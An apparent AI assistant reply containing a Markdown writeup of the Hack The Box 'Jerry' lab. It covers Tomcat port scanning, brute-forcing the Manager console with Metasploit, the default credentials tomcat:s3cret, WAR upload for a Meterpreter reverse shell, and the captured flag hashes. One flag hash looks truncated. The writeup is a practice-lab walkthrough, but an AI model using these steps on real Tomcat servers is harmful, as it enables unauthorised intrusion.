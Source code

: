 It seems like I can’t do more advanced data analysis right now. Please try again later.

But don’t worry — I can still give you the **ready-to-save Markdown text** for your Tomcat writeup. If you copy this into a file called `Tomcat.md` on your machine, it’ll work exactly the same as the other downloadable files I made earlier:

````markdown
# 🧑‍💻 Hack The Box – (Tomcat Box)

## 📌 Overview
- **Machine Name:** Jerry
- **IP Address(es):** 10.10.10.95
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** Tomcat / Default Credentials / WAR Upload / Metasploit
- **Date Completed:** 2025.08.31
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon

### RustScan
```zsh
rustscan -a 10.10.10.95 --ulimit 5000
````

**Open Port:**

* 8080 → HTTP (Apache Tomcat)

---

## 📂 Service Enumeration

### Nmap

```zsh
nmap -sC -sV -p 8080 10.10.10.95
```

* Apache Tomcat/7.0.88
* Apache-Coyote/1.1
* Likely Tomcat Manager running at `/manager`

### Content Discovery

```zsh
feroxbuster -u http://10.10.10.95:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

Found:

* `/manager/` → Tomcat Manager Console

---

## 🚀 Exploitation

### Brute-force Tomcat Manager

```zsh
msfconsole
use auxiliary/scanner/http/tomcat_mgr_login
```

Result:

```
[+] Login Successful: tomcat:s3cret
```

Default credentials worked.

### Upload WAR Reverse Shell

```zsh
use multi/http/tomcat_mgr_upload
```

* Uploaded `.war` file → triggered RCE
* Got Meterpreter session

---

## 🔑 Post Exploitation

Navigated to Administrator desktop:

```
C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt
```

Contents:

```
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90
```

✅ Both flags found in the same file.

---

## 🏁 Flags

* **User.txt:** `7004dbcef0f854e0fb401875f26ebd00`
* **Root.txt:** `04a8b36e1545a455393d067e772fe90`

---

## 🧠 Lessons Learned

**Technical**

* Apache Tomcat often exposes `/manager` endpoint with dangerous functionality.
* Default credentials (`tomcat:s3cret`) remain common misconfigurations.
* WAR deployment is an easy path to RCE if manager access is available.

**Personal**

* Remember to try default creds when identifying Tomcat.
* Content discovery quickly confirms manager panels.

**Reusable Techniques**

* Scan for `/manager` and `/host-manager` on Tomcat servers.
* Use `msfconsole` for quick brute-force of Tomcat credentials.
* Exploit via WAR upload → immediate reverse shell access.

